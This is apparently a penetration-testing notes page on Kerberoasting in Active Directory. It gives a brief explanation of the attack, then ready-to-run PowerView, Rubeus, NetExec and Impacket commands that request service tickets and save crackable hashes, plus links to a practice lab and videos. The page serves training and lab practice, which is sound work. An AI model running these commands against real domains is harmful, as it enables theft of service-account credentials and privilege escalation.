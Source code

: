 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Kerberoasting

## TL;DR

Kerberoasting is an attack on the ST and [SPNs](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names). SPNs are unique IDs that Kerberos uses to map a service instance, for example MySQL, to a service sign-in account, such as `svc_mysql`, in whose, often privileged, context the service is running. The ST is encrypted with the service's account NTLM hash, so it can potentially be cracked. **Any domain user can request a ST from the DC for any SPN account**.

<figure><img src="../../../.gitbook/assets/kerberoasting_process.png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Windows

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
{% endtab %}

{% tab title="Rubeus" %}
{% code overflow="wrap" %}
```powershell
.\Rubeus.exe kerberoast /creduser:domain\user1 /credpassword:pass /user:targetUser /outfile:hash.txt /format:hashcat /nowrap
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Linux

{% tabs %}
{% tab title="NetExec" %}
```bash
nxc ldap 192.168.0.104 -u user -p pass --kerberoasting output.txt
```
{% endtab %}

{% tab title="Impacket" %}
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 DOMAIN/user -request -outputfile spns.lst
```
{% endtab %}
{% endtabs %}

## Practice

{% tabs %}
{% tab title="Active (Easy)" %}
{% content-ref url="../../../boxes/easy/active.md" %}
[active.md](../../../boxes/easy/active.md)
{% endcontent-ref %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="Video Tutorial" %}
{% embed url="https://www.youtube.com/watch?v=-3MxoxdzFNI" %}
Kerberoasting in 14 minutes!
{% endembed %}
{% endtab %}

{% tab title="GetUserSPNs" %}
{% embed url="https://www.youtube.com/watch?v=xH5T9-m9QXw" %}
How GetUserSPNs script work behind the scenes!
{% endembed %}
{% endtab %}

{% tab title="Tim Medin's Lecture" %}
{% embed url="https://www.youtube.com/watch?v=Jaa2LmZaNeU" %}
{% endtab %}

{% tab title="Kerberoasting" %}
{% embed url="https://adsecurity.org/?p=3458" %}
A great article detailing the Kerberoasting process.
{% endembed %}
{% endtab %}
{% endtabs %}
